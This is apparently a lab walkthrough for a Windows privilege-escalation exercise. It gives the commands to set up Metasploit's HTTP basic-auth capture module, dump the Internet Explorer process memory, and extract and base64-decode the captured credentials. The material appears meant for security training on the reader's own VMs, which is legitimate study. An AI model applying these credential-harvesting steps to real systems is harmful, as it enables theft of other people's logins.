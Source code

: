 #Windows #PrivEsc #Memory #base64 #msfconsole #metasploit #FTP #pyftpdlib 

## **Exploitation**

Kali VM

1. Open command prompt and type: `msfconsole`  
2. In Metasploit (msf > prompt) type: `use auxiliary/server/capture/http_basic`  
3. In Metasploit (msf > prompt) type: `set uripath x`  
4. In Metasploit (msf > prompt) type: `run`

Windows VM

1. Open Internet Explorer and browse to: `http://[Kali VM IP Address]/x`  
2. Open command prompt and type: `taskmgr`  
3. In Windows Task Manager, right-click on the “`iexplore.exe`” in the “Image Name” column and select “Create Dump File” from the popup menu.  
4. Copy the generated file, `iexplore.DMP`, to the Kali VM.
	1. Used `pyftpdlib`

Kali VM

1. Place ‘`iexplore.DMP`’ on the desktop.  
2. Open command prompt and type: `strings /root/Desktop/iexplore.DMP | grep "Authorization: Basic"`  
3. Select and Copy the Base64 encoded string.  
4. In command prompt type: `echo -ne [Base64 String] | base64 -d`  
5. Notice the credentials in the output.